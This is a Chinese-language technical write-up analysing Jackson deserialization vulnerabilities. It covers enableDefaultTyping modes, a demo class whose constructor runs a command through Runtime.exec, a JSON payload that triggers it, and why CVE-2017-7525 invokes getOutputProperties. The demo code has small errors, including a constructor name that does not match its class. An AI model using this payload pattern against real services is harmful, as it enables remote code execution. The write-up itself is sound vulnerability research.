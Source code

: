 # Jackson的利用触发及小细节

不会很详细，简单分析一些重要的

## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

### 第二种

简单举个例子来理解下，新增一个Test类



```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以




## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了



在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法

![](img/1.png)

这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）

![](img/2.png)

这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`



## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
